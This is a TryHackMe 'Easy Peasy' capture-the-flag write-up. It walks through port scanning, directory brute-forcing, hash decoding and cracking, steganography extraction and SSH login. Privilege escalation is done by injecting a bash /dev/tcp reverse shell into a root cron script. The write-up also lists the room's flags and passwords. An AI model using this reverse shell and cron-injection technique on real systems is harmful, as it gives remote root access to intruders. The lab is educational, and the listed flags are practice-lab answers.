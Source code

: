 # TryHackMe — Easy Peasy Write-up

 **Overview**

- Room: Easy Peasy  
- Difficulty: Easy  
- Tags: Enumeration, Web Exploitation, Steganography, Privilege Escalation  

---

##  Enumeration with Nmap

Scanning the target machine:

```bash
sudo nmap -sC -sV -Pn -p- {target_IP}
```

Result:  
- 80/tcp → nginx 1.16.1  
- 6498/tcp → ssh  
- 65524/tcp → apache  

### Answers
1. How many ports are open? → **3**  
2. Version of Nginx? → **1.16.1**  
3. Service on the highest port? → **Apache**

---

##  Exploiting the Machine

### Task 1 – Flag 1
Using **GoBuster**:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://{IP}:80/
```

Found directory `/hidden` → `/whatever`.  
In the page source code we discovered a hidden hash.  
Decoded it using **CyberChef** → `From Base62`.  

 Flag 1 → **flag{f1rs7_fl4g}**

---

### Task 2 – Flag 2
Open:

```
http://{IP}:65524/robots.txt
```

Inside we find a strange User-Agent. Decoded it on md5hashing.net → got the flag.  

 Flag 2 → **flag{1m_s3c0nd_fl4g}**

---

### Task 3 – Flag 3
Check page source:

```
http://{IP}:65524
```

A hash was found → decoded with Base62.  

 Flag 3 → **flag{9fdafbd64c47471a8f54cd3fc64cd312}**  
Hidden path: `/n0th1ng3ls3m4tt3r`

---

### Task 4 – Hash Cracking
Save the hash into `password.txt`.  
Crack it using **John the Ripper** with the custom wordlist `easypeasy.txt`:

```bash
john --format=gost --wordlist=easypeasy.txt password.txt
```

Password: **mypasswordforthatjob**

---

### Task 5 & 6 – Steganography
In the web directory we found **binarycodepixarbay.jpg**.  
Check it with **stegseek**:

```bash
stegseek binarycodepixarbay.jpg easypeasy.txt
```

Result: extracted `secrettext.txt` with username and password.  

- Username: **boring**  
- Password (decoded from binary): **iconvertedmypasswordtobinary**

---

### Task 7 – User Flag
Connect via SSH:

```bash
ssh boring@{IP} -p 6498
```

Enter the password → access granted.  
Inside the home directory we find `user.txt`.  
The flag was encoded in ROT13 → decoded with CyberChef.  

 User Flag → **flag{n0wits33msn0rm4l}**

---

##  Privilege Escalation

Upload and run **linpeas.sh**.  
Found script `.mysecretcronjob.sh`. It had only comments, so we injected a reverse shell from [revshells.com](https://www.revshells.com/).

Example payload:

```bash
bash -i >& /dev/tcp/{Your_IP}/4242 0>&1
```

Start listener:

```bash
nc -lvnp 4242
```

When the connection popped, escalate privileges:

Now we are root.  
In the root directory we find `.root.txt`.  

 Root Flag → **flag{R00t_Acc3ss_C0mpl3t3}**

---

##  Summary of Flags

1. flag{f1rs7_fl4g}  
2. flag{1m_s3c0nd_fl4g}  
3. flag{9fdafbd64c47471a8f54cd3fc64cd312}  
4. Password cracked → mypasswordforthatjob  
5. stegseek → secrettext.txt (user: boring, pass: iconvertedmypasswordtobinary)  
6. User flag → flag{n0wits33msn0rm4l}  
7. Root flag → flag{R00t_Acc3ss_C0mpl3t3}

---


